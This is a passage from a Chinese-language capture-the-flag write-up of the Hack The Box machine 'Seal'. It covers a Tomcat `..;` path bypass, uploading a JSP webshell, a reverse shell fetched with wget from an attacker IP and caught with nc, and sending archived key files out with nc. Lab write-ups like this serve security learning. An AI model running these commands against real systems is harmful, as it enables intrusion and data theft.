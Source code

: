         - 第 48 頁
- 也就是網址透過 `..;` 截斷
    - https://seal.htb/manager/status/..;/html
    - 就成功進入湯姆貓後台ㄌ!!
        - ![](https://i.imgur.com/GbIHIvS.png)
- Tomcat 的後臺如果可以進入的話，代表可以上傳 jsp 的 webshell
    - 這邊我採用這個
        - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp
    - `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
    - `jar -cvf cmd.war cmd.jsp`
    - ![](https://i.imgur.com/5gC826l.png)
    - 然後在這邊上傳
        - ![](https://i.imgur.com/4D4t6pZ.png)
    - 上傳時仍然要注意 Bypass Path 的問題
        - Post 的路徑要是 `POST /manager/status/..;/html/upload`
        - 這邊我用 Burp 來處理
        - ![](https://i.imgur.com/Pdn4u3g.png)
- Web Shell 上傳成功
    - ![](https://i.imgur.com/LtoHrRk.png)
    - https://seal.htb/cmd/cmd.jsp
    - ![](https://i.imgur.com/vZnET4C.png)
    - 也可以亂輸入指令ㄌ
        - ![](https://i.imgur.com/ZcRfen5.png)
- 接下來準備 Reverse shell
    - `wget 10.10.16.5:8000/s_HTB -O /tmp/s`
        - ![](https://i.imgur.com/gXfTCmV.png)
        - 確定真的有載到
    - 準備 `nc -vlk 7877` 來接
    - `bash /tmp/s`
        - 成功收到!!
        - ![](https://i.imgur.com/Oxmqxcm.png)
## 提權
- 發現 user flag 沒有權限
    - ![](https://i.imgur.com/Jnpbv62.png)
- 發現 `/var/www/keys` 裡面有一些 key
    - 不管，先打包回家慢慢看
    - ![](https://i.imgur.com/GGWkL27.png)
    - `tar cvf /tmp/keys.tar .`
    - ![](https://i.imgur.com/HIabUln.png)
    - 用 nc 把檔案送回家
        - ![](https://i.imgur.com/WQ9UlhD.png)
        - ![](https://i.imgur.com/pB0KZjz.png)
- 發現自簽憑證在裡面!
    - ![](https://i.imgur.com/iqZ3nNG.png)
    - `/var/www/keys/selfsigned-ca.crt;`
- 那理論上我們可以用我們的瀏覽器綁自簽憑證ㄇ
    - 依照這邊的方法
        - https://www.jscape.com/blog/firefox-client-certificate
    - ![](https://i.imgur.com/CsWztGO.png)
    - QAQ 看起來是不行
- 嘗試 Linpeas
    - ![](https://i.imgur.com/QZI5bMG.png)
    - ![](https://i.imgur.com/dLIe0kD.png)
- 找到一個很新的備份檔案
    - `/opt/backups/archives/backup-2021-08-14-09:44:35.gz`
    - ![](https://i.imgur.com/lvDjHlj.png)
    - ![](https://i.imgur.com/0drtpc6.png)
